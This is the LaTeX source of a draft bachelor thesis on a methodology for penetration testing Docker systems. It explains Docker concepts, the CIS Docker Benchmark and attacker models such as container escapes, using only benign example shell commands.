\documentclass[11pt,a4paper]{report}

\usepackage[utf8]{inputenc}

% Use different enumerate list items
\usepackage[shortlabels]{enumitem}

% Add figures
\usepackage{graphicx}

% Draw images
\usepackage{tikz}

% Support caption placement
\usepackage{caption}

% Support captions of subfigures
\usepackage{subcaption}

% Support `
\usepackage{textcomp}

% Code blocks
\usepackage{listings}

% Add Bibliography to the table of contents.
\usepackage[nottoc]{tocbibind}

% Force footnotes to the bottom of the page.
\usepackage[bottom]{footmisc}

% Make itemize with multiple columns.
\usepackage{multicol}

% Make sure Latex correctly splits urls.
\usepackage[hyphens,spaces,obeyspaces]{url}

% Define autoref name for line references inside lstlistings.
\newcommand*{\lstnumberautorefname}{line}

% Internal and external references
\usepackage[hidelinks]{hyperref}

% Include \raggedright command.
\usepackage{etoolbox}

\lstset{basicstyle = \ttfamily,
        columns = fullflexible,
        keepspaces = true,
        backgroundcolor = \color{lightgray},
        showstringspaces = false,
        upquote = true,
        breaklines = true,
}

\let\subsectionautorefname\sectionautorefname{}
\let\subsubsectionautorefname\sectionautorefname{}

\setcounter{tocdepth}{4}
\setcounter{secnumdepth}{4}

\apptocmd{\thebibliography}{\raggedright}{}{}

\begin{document}
    \hypersetup{pageanchor=false}
    \begin{titlepage}
        \begin{center}
            \textsc{\LARGE Bachelor thesis\\Computing Science}\\[1.5cm]
            
\includegraphics[height=100pt]{resources/images/logo}

            \vspace{0.4cm}
            \textsc{\Large Radboud University}\\[1cm]
            \hrule
            \vspace{0.4cm}
            \textbf{\huge A Methodology for Penetration Testing Docker Systems}\\[0.4cm]
            \hrule
            \vspace{2cm}
            \begin{minipage}[t]{0.45\textwidth}
                \begin{flushleft} \large
                    \textit{Author:}\\
                    Joren Vrancken\\
                    s4593847
                \end{flushleft}
            \end{minipage}
            \begin{minipage}[t]{0.45\textwidth}
                \begin{flushright} \large
                    \textit{First supervisor/assessor:}\\
                    dr.\ ir. Erik Poll\\
                    \texttt{erikpoll@cs.ru.nl}\\[1.3cm]
                    \textit{Internship supervisor:}\\
                    Dave Wurtz\\
                    \texttt{dave.wurtz@secura.com}\\[1.3cm]
                    \textit{Second assessor:}\\
                    dr. Simona Samardijska\\
                    \texttt{simonas@cs.ru.nl}\\
                \end{flushright}
            \end{minipage}
            \vfill {\large \today}
        \end{center}
    \end{titlepage}

    \newpage
    This page is intentionally left blank.
    \thispagestyle{empty}\newpage

    \begin{abstract}
Containerization software has become extremely popular to streamline software deployments in the last few years. That has made it a very import attack surface. This paper looks at how one should go about testing the security of the Docker containers. It first looks at known vulnerabilities and misconfigurations that impact the security. It links those to the Docker CIS Benchmark (security guidelines). It then provides a methodology for Secura to test the security of Dockers in the networks of their clients.
\end{abstract}


    \hypersetup{pageanchor=true}

    \tableofcontents

    \chapter{Introduction}
\todo[inline]{Not about app vulnerabilities, but specifically about Docker}
\todo[inline]{Docker is not a security framework}
\todo[inline]{What is the added security value of Docker?}

Secura, a company specializing in digital security, performs security assessments for clients. In these assessments, Secura evaluates vulnerable parts of the private and public network of their clients. They would like to improve those assessments by also looking into containerization software their clients may be running.

\hfill

Containerization software allows developers to package software into easily reproducible packages.
It removes the tedious process of installing the right dependencies to run software, because the dependencies and necessary files are neatly isolated in the container. This also allows multiple versions of the same software to run simultaneous on a server, because every instance runs in its own container.

The de facto industry standard is called Docker. Docker allows developers to package software into images and run those instances as containers.

Docker streamlines and significantly simplifies software development and deployment. That is why many companies use Docker to develop, test and deploy (part of) their IT infrastructure someway or another. This makes it very interesting from a security perspective. A security problem with Docker could have a large impact on organizations.

\hfill

This research paper describes possible security problems with Docker (vulnerabilities and misconfigurations) and how those can be used during security assessments.

    \chapter{Notation \& Basic Concepts}\label{chapter:notation}
Throughout this thesis, we will look at many examples using Unix shell commands. We will also be referring to (security related) computing science concepts (e.g. CVEs). This chapter will introduce the notation used and the concepts.

\section{Unix Shell Commands}
The following conventions are used to represent the different contexts in which commands are executed.

\begin{itemize}
    \item If a command is executed directly on a host system, it is prefixed by ``\lstinline{(host)}''.
    \item If a command is executed inside a container, it is prefixed by ``\lstinline{(cont)}''.
    \item If a command is executed by an unprivileged user, it is prefixed by ``\lstinline{$}''.
    \item If a command is executed by a privileged user (i.e. \lstinline{root}), it is prefixed by ``\lstinline{#}''.
    \item Long or irrelevant output of commands is replaced by ``\ldots''.
    \item In order to improve legibility, commands shown use abbreviated command arguments (where possible) and quoted argument values.
\end{itemize}

\medskip

In \autoref{listing:notation:example1}, an unprivileged user executes a command on a host system.
\begin{lstlisting}[caption={Shell command notation example 1.}, captionpos=b, label={listing:notation:example1}]
(host)$ echo "Hello, World!"
Hello, World!
\end{lstlisting}

\medskip

In \autoref{listing:notation:example2}, the \lstinline{root} user executes two commands to get system information. The content of \lstinline{/proc/cpuinfo} is omitted.
\begin{lstlisting}[caption={Shell command notation example 2.}, captionpos=b, label={listing:notation:example2}]
(cont)# uname -r
5.3.8-arch1-1
(cont)# cat /proc/cpuinfo
...
\end{lstlisting}

\section{Common Vulnerabilities and Exposures}
The Common Vulnerabilities and Exposures (CVE) system is a list of publicly known security related bugs. Every bug that is found gets a CVE identifier, which looks like CVE--2019--0000. The first number represents the year in which the vulnerability is found. The second number is an arbitrary number that is at least four digits long. The system is maintained by the Mitre Corporation. Organizations that are allowed to give out new CVE identifiers are called CVE Numbering Authorities (CNA for short). It is possible to read and search the full list on Mitre's website\footnote{\url{https://cve.mitre.org/}}, the United State's National Vulnerability Database\footnote{\url{https://nvd.nist.gov/}} (NVD) and other websites like CVEDetails\footnote{\url{https://www.cvedetails.com/}}.

The severity (impact and likelihood of exploitation) of a CVE is determined by the Common Vulnerability Scoring System (CVSS for short) score. The CVSS scores of every CVE can be found in the National Vulnerability Database\footnote{\url{https://nvd.nist.gov/}} which is maintained by National Institute of Standards and Technology.

\medskip

In \autoref{section:bugs} we will look at different security related bugs.

\section{The CIS Docker Benchmark}
The Center for Internet Security (CIS) is a not-for-profit organization that provides best practice solutions for digital security. For example, they provide security hardened virtual machine images\footnote{\url{https://www.cisecurity.org/cis-hardened-images/}} that are configured for optimal security.

\medskip

The CIS Benchmarks\footnote{\url{https://cisecurity.org/cis-benchmarks/}} are guidelines and best practices on security on many different types of software. These guidelines are freely available for anyone and can be found on their site. Companies (e.g. Secura) use the CIS Benchmarks as a baseline to assess the security and configuration of systems that use Docker.

\medskip

They also provide guidelines on Docker.\footnote{Only the community edition (Docker CE). It does not cover the enterprise edition (Docker EE).} The latest version (1.2.0, published 29 July 2019) contains 115 guidelines. These are sorted by topic (e.g. Docker daemon and configuration files). In \autoref{appendix:CIS-Benchmark-Example} you will find an example guideline from the latest CIS Docker Benchmark.

In \autoref{chapter:vulnerabilities} we will look at different Docker related vulnerabilities. We will map those to guidelines in the CIS Docker Benchmark. We will also look at a tool that automatically checks if a host follows all guidelines in \autoref{tools:bench}.

In \autoref{futurework:CIS} we look at possible improvements to the CIS Docker Benchmark.

\section{Penetration Testing}
\todo[inline]{Jos: add an architecture picture}
Penetration testing (pentesting for short) is an simulated attack to test the security of systems and applications. The goal of a penetration test is to find the weak points in a system in order able to fix and secure them.

Companies, such as Secura, perform penetration tests for clients. The result of such a penetration test is a report detailing the weaknesses of the client's systems and applications. This gives the client insight into how to secure their systems and the weaknesses an attacker might target.

A typical penetration test is performed in phases (called a \emph{kill chain}):
\begin{enumerate}
    \item Reconnaissance: Gather data about the target system or application. These can be gathered actively (i.e.\ with interaction with the target) or passively (i.e.\ without interaction with the target).
    \item Exploitation: The gathered data is used to identify weak spots and vulnerabilities. These are attacked and exploited to gain (unprivileged) access.
    \item Post-exploitation: After successful exploitation and gaining a foothold, a persistent foothold is established.
    \item Exfiltration: Once a persistent foothold has been established, sensitive data from the system is retrieved.
    \item Cleanup: Once the attack has been successful, all traces of the attack should be removed.
\end{enumerate}

\medskip

There are many types of assessments. Most tests differ in what information about the system the assessor gets from the system administrator or owner before the assessment starts or what kind of systems or applications are being tested. Below are some common assessments that companies, like Secura, perform:
\begin{itemize}
    \item Black Box Application / Infrastructure Test: The assessor does not get any information about the system that are in the assessment scope.

    \item Grey Box Application / Infrastructure Test: The assessor gets some information (e.g.\ credentials) about the systems in the assessment scope.

    \item Crystal Box Application / Infrastructure Test:  The assessor gets all available information about the system and its internal workings. Additionally, architects of the system may be interviewed. Crystal Box assessments are sometimes called a White Box assessment.

    \item Design Review: An assessment where the architecture, documentation and configuration of all systems within an environment are reviewed. No actual tests are performed during a design review.
    \item Internal Penetration Test: An assessment of the internal network of a client. Most of the time, the assessment has a clear goal (e.g.\ finding certain sensitive information).

    \item Red Teaming: An assessment that is similar to a real word targeted attack. This type of assessment relies heavily on stealth and includes all techniques that might be used by malicious actors to obtain sensitive information without being detected.

    \item Social Engineering: An assessment of the security of the people interacting with a system (e.g.\ employees of a company). For example, sending phishing mails or trying to get physical access to a building by impersonating an employee.

    \item Code Reviews: Reviewing the source code of an application.
\end{itemize}


    \chapter{Background}\label{chapter:background}

In this chapter we will discuss the necessary background information and preliminaries. First we will look at what containerization software is and how it compares to virtualization. We will also look at important Docker concepts, how to use them and how Docker works internally. Finally, we introduce the CIS Docker Benchmarks.

\section{Containerization Software}\label{background:containerization}
\todo[inline]{Jos: Better models with examples}
Containerization software isolates processes running on a host from each other.
A process in a container sees a different part of the host system than processes outside of the container. A process inside a container sees a different file system, network interfaces and users than processes outside of the container. Processes inside the container can only see other processes inside the container.

\begin{figure}[ht]
    \centering
    \begin{subfigure}[t]{.45\textwidth}
        \centering
        
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
            % Process A Rectangle
            \draw (0,25) -- (95,25) -- (95,55) -- (0,55) -- cycle ;
            \draw (47.5,40) node {Process A};

            % Process B Rectangle
            \draw (105,25) -- (200,25) -- (200,55) -- (105,55) -- cycle ;
            \draw (152.5,40) node {Process B};

            % Host Rectangle
            \draw (0,65) -- (200,65) -- (200,95) -- (0,95) -- cycle ;
            \draw (100, 80) node {Linux Host};
        \end{tikzpicture}
        \caption{Two processes.}\label{subfig:processes}
    \end{subfigure}
    \begin{subfigure}[t]{.45\textwidth}
        \centering
        
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
            % Process A Rectangle
            \draw (0,25) -- (90,25) -- (90,55) -- (0,55) -- cycle ;
            \draw (45,40) node {Process A};

            % Process B container Rectangle
            \draw (100,0) -- (200,0) -- (200,60) -- (100,60) -- cycle ;
            \draw (152.5,15) node {Container};

            %% Process B Rectangle
            \draw (105,25) -- (195,25) -- (195,55) -- (105,55) -- cycle ;
            \draw (150,40) node {Process B};

            % Host Rectangle
            \draw (0,65) -- (200,65) -- (200,95) -- (0,95) -- cycle ;
            \draw (100, 80) node {Linux Host};
        \end{tikzpicture}
        \caption{One process in a container.}\label{subfig:container}
    \end{subfigure}
    \caption{}\label{fig:with-without-container}
\end{figure}

If we look at \autoref{fig:with-without-container}, we see two scenarios. \autoref{subfig:processes} is the normal way to run processes. The operating system starts processes that can communicate with other processes. Their view on the file system is the same.
In \autoref{subfig:container} one of the processes runs inside a container. These processes cannot communicate with one another. If Process A looks at the files in \lstinline{/tmp}, it accesses a different part of the file system than when Process B looks at the files in \lstinline{/tmp}\footnote{Access to files on the host has to be explicitly given (as discussed in \autoref{subsection:data-persistence}).}. Process B can not even see that Process A exists.

\medskip

Process A and Process B see such a different part of the host system that to Process B it looks like it is running on a wholly different system.

\subsection{Advantages of Containerization}
\todo[inline]{Jos: better explanation}
Containers can be made into easily deployable packages (called images). These images only contain the necessary files for specific software to run. Other files, libraries and binaries are shared between the host operating system (the system running the container). This allows developers to create lightweight software packages containing only the necessary dependencies.

\medskip

Containers also make it possible to run multiple versions of the same software on one host. Each container can contain a specific version and all the containers run on the same host. Because the containers are isolated from each other, their incompatible dependencies do not pose a problem.

\medskip

For example, if we want to run an instance of Wordpress\footnote{A very popular content management system to build websites with.}, we do not need to install all the Wordpress dependencies. We only need to download the container that the Wordpress developers created, which includes all the necessary dependencies.

Similarly, if we want to move the Wordpress instance from one host to another, we just have to copy the Wordpress database and run the image on the new host. Even if the new host is a completely different operating system.

If we want to test a newer version of Wordpress on the same host, we only have to run the different container on the same host. The incompatible dependencies of the two Wordpress instances are not a problem, because they see different parts of the file system and do not even see each other's processes.

\medskip

The simplicity that containerization brings, makes containerization very popular in software development, maintenance and deployment.

\pagebreak

\subsection{Virtualization}
\todo[inline]{Jos: Hypervisior separate from host in image}
Virtualization is an older, similar technique to isolate software. In virtualization, a whole system is simulated on top of the host (called the hypervisor). This new virtual machine is called a guest. The guest and the host do not share any system resources. This has some advantages. For example, it allows running a completely different guest operating system (e.g.\ a Windows guest on a Linux host).

\begin{figure}[ht]
    \centering
    \begin{subfigure}[t]{.45\textwidth}
        \centering
        
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
            % VM Process A Rectangle
            \draw (0,0) -- (100,0) -- (100,100) -- (0,100) -- cycle ;
            \draw (50,10) node {{\small Virtual Machine}};

            % OS Process A Rectangle
            \draw (5,20) -- (95,20) -- (95,95) -- (5,95) -- cycle ;
            \draw (50,30) node {OS};

            % Process A Rectangle
            \draw (10,40) -- (90,40) -- (90,70) -- (10,70) -- cycle ;
            \draw (50,55) node {Process A};

            % VM Process B Rectangle
            \draw (105,0) -- (205,0) -- (205,100) -- (105,100) -- cycle ;
            \draw (155,10) node {{\small Virtual Machine}};

            % OS Process B Rectangle
            \draw (110,20) -- (200,20) -- (200,95) -- (110,95) -- cycle ;
            \draw (155,30) node {OS};

            % Process B Rectangle
            \draw (115,40) -- (195,40) -- (195,70) -- (115,70) -- cycle ;
            \draw (155,55) node {Process B};

            % Hypervisor
            \draw (0,105) -- (205,105) -- (205,120) -- (0,120) -- cycle ;
            \draw (102.5,112.5) node {{\small Hypervisor}};

            % Linux Host
            \draw (0,125) -- (205,125) -- (205,155) -- (0,155) -- cycle ;
            \draw (102.5,140) node {Linux Host};
        \end{tikzpicture}
        \caption{Virtual Machines\protect\footnotemark.}
    \end{subfigure}
    \begin{subfigure}[t]{.45\textwidth}
        \centering
         
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
            % Container Process A Rectangle
            \draw (0,0) -- (97.5,0) -- (97.5,50) -- (0,50) -- cycle ;
            \draw (50,10) node {Container};

            % Process A Rectangle
            \draw (5,20) -- (95,20) -- (95,45) -- (5,45) -- cycle ;
            \draw (50,32.5) node {Process A};

            % Container Process B Rectangle
            \draw (102.5,0) -- (200,0) -- (200,50) -- (102.5,50) -- cycle ;
            \draw (150,10) node {Container};

            % Process B Rectangle
            \draw (105,20) -- (195,20) -- (195,45) -- (105,45) -- cycle ;
            \draw (150,32.5) node {Process B};

            % Host Rectangle
            \draw (0,55) -- (200,55) -- (200,85) -- (0,85) -- cycle ;
            \draw (100, 70) node {Linux Host};
        \end{tikzpicture}
        \caption{Containers.}
    \end{subfigure}
    \caption{}
\end{figure}
\footnotetext{Hypervisors can also run on the bare metal. This removes the need for a host OS, which adds security.}

Because containerization software shares many resources with the host, it is a lot faster and more flexible than virtualization. Where virtualization needs to start a whole new operating system, containerization only needs to start a single process.

\subsection{The Impact of Containers on Security}
\todo[inline]{Jos: explain RCE}
A Docker container isolates software from the host, but does not change it. This means that vulnerabilities in software are not affected by Dockerizing that software. However, the impact of those vulnerabilities is decreased, because the vulnerability exists in an isolated environment.

If, for example, there exists a remote code execution (RCE) vulnerability in Wordpress. Running Wordpress in a Docker container does not fix the vulnerability. An attacker is still able to exploit it. But the attacker is far less likely to access the host system, because the exploited software is isolated from the host system because of Docker.

\medskip

Because a container uses the same kernel and resources as the host, a \lstinline{root} exploit (i.e.\ an exploit that allows unprivileged users to escalate their privileges) can be just as effective inside as outside of the container, because the target (e.g.\ the kernel) is the same. CVE--2016--5195(Dirty Cow)\footnote{\url{https://dirtycow.ninja/}} is a good example of an exploit that allows container escapes\cite{Dirty-Cow-Escape}, because it attacks the kernel of the host.

\section{Docker}
\todo[inline]{Docker on Windows}
\todo[inline]{Research: Secure Computing Mode Profiles}
\todo[inline]{\href{https://itnext.io/chroot-cgroups-and-namespaces-an-overview-37124d995e3d}{chroot, cgroups and namespaces}}
\todo[inline]{\href{https://www.secura.com/blog-hacklu2018-docker-security}{Docker, A brief history and security considerations for modern environments}}

\hfill

The concept of containerization has been around a long time, but it only gained traction as serious way to package, distribute and run software in the last few years. This is mostly because of Docker.

\hfill

Docker was released in 2013 and it did not only offer a containerization platform, but also a way to distribute the containers. This allows developers and companies to create packages that are much more easily run.

\hfill

For example, someone that wants to run an instance of Wordpress\footnote{A very popular content management system to build websites with.}, does not need to install all the Wordpress dependencies. They only need to download the Docker image that the Wordpress developers created.
Similarly, if they want to move the Wordpress instance from one host to the other, they just have to copy over their database and run the Docker image on the new host. Even if the new host is a completely different operating system.

\subsection{Docker Concepts}
Docker is based on four concepts: Docker daemon, Docker images, Docker containers and \lstinline{Dockerfile}s.

\subsubsection{Docker daemon}
The daemon is a service that runs on the host machine. It manages all things related to Docker on that machine. For example if the user wants to build an image or a container needs to restart the docker daemon. It is good to note that, because everything related to Docker is handled by the daemon and Docker has access to all resources of the host, having access to Docker should be viewed as equivalent to having \lstinline{root} access to the host\footnote{\url{https://docs.docker.com/engine/security/security/\#docker-daemon-attack-surface}}.

\subsubsection{Docker images}
A Docker image is packaged software. It is a distributable set of layers. The first layer describes the base of the image. This is either an existing image or nothing (referred to as \lstinline{scratch}). Each layer on top of that is a change to the layer before. For example, if you add a file or run an command it adds a new layer.

\subsubsection{Docker containers}
A container is an instance of a Docker Image. If you run software packaged as a Docker image, you create a container based on that image. If you want to run two instances of the same Docker image, you can create two containers.

\subsubsection{\lstinline{Dockerfile}s}
A \lstinline{Dockerfile} describes what a Docker image is made of. It describes the steps to build the image. Lets look at a very simple example:

\begin{lstlisting}[caption={Very Basic \lstinline{Dockerfile}},label={dockerfile:simple},captionpos=b]
FROM alpine:latest
LABEL maintainer="Joren Vrancken"
CMD ["echo", "Hello World"]
\end{lstlisting}

These three instructions tell the Docker engine how to create a new Docker image.
The full instructionset can be found in the \lstinline{Dockerfile} reference\footnote{\url{https://docs.docker.com/engine/reference/builder/}}

\begin{enumerate}
    \item The \lstinline{FROM} instruction tells the Docker engine what to base the new Docker image on. Instead of creating an image from scratch (a blank image), we use an already existing image as our basis.

    \item The \lstinline{LABEL} instruction sets a key value pair for the image. There can be multiple LABEL instructions. These key value pairs get packaged and distributed with the image.

    \item The \lstinline{CMD} instruction sets the default command that should be run and which arguments should be passed to it.
\end{enumerate}

We can use this to create a new image and container from that image.
\begin{lstlisting}[caption={Creating a Docker container from a \lstinline{Dockerfile}},label={docker:container},captionpos=b]
$ docker build -t thesis-hello-world .
$ docker run --rm --name=thesis-hello-world-container thesis-hello-world
\end{lstlisting}

We first create a Docker image (called \lstinline{thesis-hello-world}) using the \lstinline{docker build} command and then create and start a new container (called \lstinline{thesis-hello-world-container}) from that image.

\subsubsection{Data Persistence}
Without additional configuration, a Docker container does not have persistence storage. Its storage is maintained when the container is stopped, but not when the container is removed.

\subsubsection{Networking}
\todo[inline]{iptables}
\todo[inline]{\url{https://github.com/docker/libnetwork/blob/master/docs/design.md}}

When a Docker container is created Docker creates a network sandbox for that container and (by default) connects it to an internal bridge network. This gives the container its own networking resources such as a IPv4 address\footnote{IPv6 support is not enabled by default.}, routes and DNS entries. All outgoing traffic is routed through a bridge interface (by default).

\hfill

Incoming traffic is possible by routing traffic for specific ports from the host to the container.
Specifying which ports on the host are routed to which ports on the container is done when a container is created. If we, for example, want to expose port \lstinline{80} to the Docker image created from the \hyperref[dockerfile:simple]{first \lstinline{Dockerfile}} we can execute the following commands.

\begin{lstlisting}[caption={Creating a Docker container with exposed port},label={docker:publish},captionpos=b]
$ docker build -t thesis-hello-world .
$ docker run --rm --publish 8000:80 --name=thesis-hello-world-container thesis-hello-world
\end{lstlisting}

The first command creates a Docker image using the \lstinline{Dockerfile} and we then create (and start) a container from that image. We ``publish'' port \lstinline{8000} on the host to port \lstinline{80} of the container. This means that, while the container is running, all traffic from port \lstinline{8000} on the host is routed to port \lstinline{80} of the container.

\subsubsection{Docker internals}
\todo[inline]{\href{https://medium.com/@saschagrunert/demystifying-containers-part-i-kernel-space-2c53d6979504}{Demystifying Containers Part I Kernel Space}}
\todo[inline]{\href{https://medium.com/@saschagrunert/demystifying-containers-part-ii-container-runtimes-e363aa378f25}{Demystifying Containers Part II Container Runtimes}}
\todo[inline]{\href{https://medium.com/@saschagrunert/demystifying-containers-part-iii-container-images-244865de6fef}{Demystifying Containers Part III Container Images}}

\subsection{docker-compose}
\todo[inline]{Secrets in docker-compose can be easily found, even without docker group permissions}

\subsection{Registries}
\todo[inline]{Official images not always standard images}

Docker images are distributable through so called registries. A registry is a server (that anybody can host), that stores Docker images. When a client does not have a Docker image that it needs, it can contact a registry to download that image.

\hfill

The most popular (and public) registry is Docker Hub, which is run by company that develops Docker.
Anybody can create a Docker Hub account and start creating images that anybody can download. Docker Hub also provides default images for popular software.

\section{CIS Docker Benchmarks}
The Center for Internet Security (or CIS for short) is a non-profit organization that provides best practice solutions for digital security. For example, they provide security hardened virtual machine images that are configured for optimal security.

\hfill

The CIS Benchmarks are guidelines and best practices on security on many different types of software. These guidelines are freely available for anyone and can be found on their site\footnote{\url{https://cisecurity.org/cis-benchmarks/}}. Many companies (e.g. Secura) use the CIS Benchmarks as a baseline to assess the security of systems.

\hfill

They also provide guidelines on Docker\footnote{Only Docker CE, the community edition. It does not cover Docker EE, the enterprise edition.}. The latest version (1.2.0) contains 115 guidelines. These are sorted by topic (e.g. Docker daemon and configuration files). In \hyperref[appendix:CIS-Benchmark-Example]{the appendix} you will find an example guideline from the latest Docker CIS Benchmark.


    \chapter{Attacker Models}\label{chapter:attack-surface-models}
When discussing containers make the distinction between two perspectives: \emph{inside} a container and \emph{outside} a container.

When \emph{inside} a container, we see the container like a process that is running inside that container. That process (and thus our viewpoint) has been isolated from the host and can only see files and resources specific to that container. This means that we are able to execute commands, but only inside the container.

When \emph{outside} a container, we see the host and containers running on the host like a process that is running on the host. We are able to see everything on that host (that we have access too). For example, we are able to see the Docker daemon process and all its child processes. We are able to execute commands directly on the host. We are able to use Docker (e.g.\ interact with containers) if we have permission to use Docker (see \autoref{background:docker-socket}).

\medskip

We can think of these perspectives as attacker models. An attacker model is a general representation of a how an attacker would attack a specific system. Because we split containers into two perspectives, we see two attacker models.

We can think of the first perspective (inside a container) as an attacker model where an attacker has gained access to a container. The attacker is able to execute commands inside the container and has access to everything inside the container. Because the attacker will mostly focus on escaping the isolation that the container brings, we call this type of attack a \emph{Container Escape}. We further discuss Container Escapes in \autoref{subsection:container-escape}.

We can think of the second perspective (outside a container) as an attacker model where the attacker has unprivileged access to a host. The attacker is able to execute commands on the host, but does not have access to everything. Because the attacker will use Docker (specifically the Docker daemon) on the host to access, we call this type of attack \emph{Docker Daemon Attack}. We further discuss Daemon Attacks in \autoref{attacker-model:daemon-attacks}

Throughout this thesis we will always make the distinction between these attacker models.

\medskip

To clarify the attacker models, we will take a look at the image in \autoref{fig:attacker-model-empty} with arrows to visualize what is attacking what.

\begin{figure}[ht]
    \centering
    
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
        % Host Rectangle
        \draw (0,100) -- (400,100) -- (400,130) -- (0,130) -- cycle ;
        \draw (200, 115) node {Host};

        %Docker Daemon Rectangle
        \draw (200,75) -- (400,75) -- (400,95) -- (200,95) -- cycle ;
        \draw (300,85) node {Docker Daemon};

        % Process A Rectangle
        \draw (0,40) -- (85,40) -- (85,70) -- (0,70) -- cycle ;
        \draw (42.5,55) node {Process A};

        % Process B Rectangle
        \draw (105,40) -- (190,40) -- (190,70) -- (105,70) -- cycle ;
        \draw (147.5,50) node {Process B};
        \draw (147.5,62.5) node {{\footnotesize (unprivileged)}};

        %Container Process C Rectangle
        \draw (200,0) -- (295,0) -- (295,70) -- (200,70) -- cycle ;
        \draw (247.5,10) node {Container};

        %% Process C Rectangle
        \draw (205,20) -- (290,20) -- (290,50) -- (205,50) -- cycle ;
        \draw (247.5,35) node {Process C};

        %Container Process D Rectangle
        \draw (305,0) -- (400,0) -- (400,70) -- (305,70) -- cycle ;
        \draw (352.5,10) node {Container};

        %% Process D Rectangle
        \draw (310,20) -- (395,20) -- (395,50) -- (310,50) -- cycle ;
        \draw (352.5,35) node {Process D};

    \end{tikzpicture}
    \caption{}\label{fig:attacker-model-empty}
    \medskip
    \small
    Two processes running directly on a host and two processes running inside Docker containers. 
\end{figure}

We see the following processes pictured in the images:
\begin{enumerate}[A.]
    \item A standard (privileged) process running directly on the host.
    \item A standard unprivileged process running directly on the host.
    \item A process running in a Docker container.
    \item Similar to C.
\end{enumerate}

\section{Container Escapes}\label{subsection:container-escape}
One of the most common type of vulnerability is the possibility for a process running in a container to escape the container and access data (i.e.\ execute commands) on the host.
\begin{figure}[ht]
    \centering
    
\begin{tikzpicture}[x=0.75pt,y=0.75pt,yscale=-1,xscale=1]
        % Host Rectangle
        \draw (0,100) -- (400,100) -- (400,130) -- (0,130) -- cycle ;
        \draw (200, 115) node {Host};

        %Docker Daemon Rectangle
        \draw (200,75) -- (400,75) -- (400,95) -- (200,95) -- cycle ;
        \draw (300,85) node {Docker Daemon};

        % Process A Rectangle
        \draw (0,40) -- (85,40) -- (85,70) -- (0,70) -- cycle ;
        \draw (42.5,55) node {Process A};

        % Process B Rectangle
        \draw (105,40) -- (190,40) -- (190,70) -- (105,70) -- cycle ;
        \draw (147.5,50) node {Process B};
        \draw (147.5,62.5) node {{\footnotesize (unprivileged)}};

        %Container Process C Rectangle
        \draw (200,0) -- (295,0) -- (295,70) -- (200,70) -- cycle ;
        \draw (247.5,10) node {Container};

        %% Process C Rectangle
        \draw (205,20) -- (290,20) -- (290,50) -- (205,50) -- cycle ;
        \draw (247.5,35) node {Process C};

        %Container Process D Rectangle
        \draw (305,0) -- (400,0) -- (400,70) -- (305,70) -- cycle ;
        \draw (352.5,10) node {Container};

        %% Process D Rectangle
        \draw (310,20) -- (395,20) -- (395,50) -- (310,50) -- cycle ;
        \draw (352.5,35) node {Process D};

        % Line
        \draw [latex-,very thick] (190,55) -- (205,35) ;
    \end{tikzpicture}
    \caption{}\label{fig:container-escape}
    \medskip
    \small
    A process (Process C) running inside a container accessing data on the host (that it should not be able to access), in this case Process B.
\end{figure}

\medskip

An example attack scenario would be a company that offers a Platform as a Service (PaaS) products that allows customers to run Docker containers on their infrastructure\footnote{This is actually quite common nowadays. All major computing providers offer such a service.}. If it is possible for the attacker to submit a Docker image with a malicious process that escapes the container and access the underlying infrastructure, they could access other containers or other internal resources. That would, obviously, be a very big problem for the company.

\medskip

